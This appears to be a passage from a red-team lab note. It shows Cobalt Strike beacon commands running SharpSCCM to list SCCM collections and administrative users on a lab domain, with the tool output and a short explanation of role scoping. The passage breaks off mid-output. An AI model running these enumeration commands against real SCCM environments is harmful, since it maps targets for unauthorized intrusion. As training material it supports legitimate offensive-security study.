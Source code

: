 only able to see the `dev` group as `jking`
```powershell

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
[*] Tasked beacon to run .NET program: SharpSCCM.exe get collections --no-banner
[+] host called home, sent: 1233202 bytes
[+] received output:


[+] received output:
[+] Querying the local WMI repository for the current management point and site code

[+] received output:
[+] Connecting to \\127.0.0.1\root\CCM

[+] received output:
[+] Current management point: scm-1.cyberbotic.io
[+] Site code: S01
[+] Connecting to \\scm-1.cyberbotic.io\root\SMS\site_S01

[+] received output:
[+] Executing WQL query: SELECT CollectionID,CollectionType,IsBuiltIn,LastMemberChangeTime,LastRefreshTime,LimitToCollectionName,MemberClassName,MemberCount,Name FROM SMS_Collection  

[+] received output:
-----------------------------------
SMS_Collection
-----------------------------------

[+] received output:
CollectionID: S0100014
CollectionType: 2
IsBuiltIn: False
LastMemberChangeTime: 20230927154116.000000+***
LastRefreshTime: 20230927154116.000000+***
LimitToCollectionName: All Systems
MemberClassName: SMS_CM_RES_COLL_S0100014
MemberCount: 6
Name: DEV
-----------------------------------
[+] Completed execution in 00:00:02.7439056
```
This is because even though DEV\Developers are only "Read-Only Analysts", the role is scoped to both collections.  DEV\Support Engineers are "Full Administrators" over the DEV collection but they have no roles that are scoped to the CYBER collection.
![[Pasted image 20231218171220.png]]
So when enumerating SCCM, you may only see a small slither based on the user you're running the enumeration as.
Administrative users can be found using `get class-instances SMS_Admin`.

```powershell
[12/18 22:12:47] beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner
[12/18 22:12:59] [*] Tasked beacon to run .NET program: SharpSCCM.exe get class-instances SMS_Admin --no-banner
[12/18 22:12:59] [+] host called home, sent: 1233230 bytes
[12/18 22:13:01] [+] received output:

[+] Querying the local WMI repository for the current management point and site code

[12/18 22:13:01] [+] received output:
[+] Connecting to \\127.0.0.1\root\CCM

[12/18 22:13:01] [+] received output:
```
